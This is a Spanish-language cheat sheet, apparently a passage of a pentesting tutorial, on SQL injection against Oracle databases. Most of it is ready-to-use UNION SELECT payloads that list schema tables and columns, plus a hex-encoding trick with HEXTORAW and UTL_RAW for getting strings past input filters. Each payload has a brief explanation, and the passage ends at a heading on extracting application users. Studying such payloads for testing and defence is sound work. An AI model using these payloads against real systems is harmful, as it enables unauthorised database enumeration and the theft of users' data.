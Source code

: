 ```sql
' UNION SELECT NULL, (SELECT LISTAGG(table_name, ',') WITHIN GROUP (ORDER BY table_name) FROM all_tables WHERE owner = 'APP_SCHEMA') FROM DUAL--
```

**Explicación:** `ALL_TABLES` lista las tablas accesibles; `OWNER` es el schema (user) que posee la tabla. Si queremos solo las tablas del usuario conectado, `USER_TABLES` puede ser suficiente.



---

## Cadenas en hexadecimal (equivalente a `convert_from(decode(...))` en Postgres)

Si no podemos introducir ciertas cadenas directamente (por ejemplo `APP_SCHEMA`), en Oracle podemos convertir hex a texto usando `HEXTORAW` y `UTL_RAW.CAST_TO_VARCHAR2`:

```sql
UTL_RAW.CAST_TO_VARCHAR2(HEXTORAW('7075626c6963'))
```

Ejemplo en un payload:

```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = UTL_RAW.CAST_TO_VARCHAR2(HEXTORAW('4150505f534348454d41'))--
```

Donde `'4150505f534348454d41'` es el hex de `APP_SCHEMA`.

**Explicación:** `HEXTORAW` convierte una cadena hex en RAW; `UTL_RAW.CAST_TO_VARCHAR2` convierte RAW a `VARCHAR2`. En Oracle esto suele requerir que el servidor tenga habilitado `UTL_RAW` (estándar) y que la codificación coincida.


---

## Listar columnas de una tabla

Como nombre de tabla usamos 'DUAL', se puede usar la que se vea extrayendo las tablas

```sql
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='DUAL'--
```

```sql
' UNION SELECT 1, column_name FROM all_tab_columns WHERE table_name = 'NOMBRE_TABLA' AND owner = 'APP_SCHEMA'--
```

**Explicación:** `ALL_TAB_COLUMNS` o `USER_TAB_COLUMNS` contienen la información de columnas. `table_name` en Oracle suele almacenarse en mayúsculas por defecto si se creó sin comillas, por lo que puede ser necesario normalizar a mayúsculas en el filtro.


---

## Extraer usuarios de una tabla `users` de la aplicación
